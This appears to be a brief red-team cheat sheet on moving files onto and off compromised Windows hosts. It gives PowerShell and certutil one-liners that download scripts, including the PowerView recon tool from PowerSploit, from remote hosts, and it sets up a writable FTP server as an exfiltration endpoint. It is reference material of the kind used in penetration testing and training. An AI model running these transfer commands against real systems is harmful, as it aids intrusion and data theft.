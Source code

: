 # Techniques to Infil and Exfil Files

## Infil

```powershell
# Powershell
wget https://example.com/script.ps1 -o script.ps1
# OR
Invoke-WebRequest -OutFile PowerView.ps1 -Uri https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1

# Certutil
certutil.exe -urlcache -f http://example.com/script.ps1 script.ps1
```

## Exfil

### Python3 pyftpdlib

On the machine you are exfilling to:  

```bash
pip3 install pyftpdlib
python3 -m pyftpdlib -w --user=username --password=password
```

